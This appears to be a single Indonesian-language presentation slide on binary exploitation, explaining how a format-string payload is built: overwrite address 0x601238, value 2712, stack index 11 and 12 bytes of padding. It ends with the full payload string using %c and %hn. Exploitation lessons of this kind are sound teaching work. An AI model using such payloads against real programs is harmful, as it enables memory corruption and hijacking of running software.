

# Payload Exploit
Alamat overwrite = 0x601238 = \x38\x12\x60\x00\x00\x00\x00\x00
Nilai overwrite = 0x0A98 = 2712
Index = 11 (didapatkan dari debugging)
Padding = sembarang string n karakter sedemikian sehingga alamat overwrite (merah) ada pada posisi kelipatan 8 di payload-nya; di sini digunakan n = 12

| %2712c%11$hnABCDEFGHIJKL\x38\x12\x60\x00\x00\x00\x00\x00 |
| --- |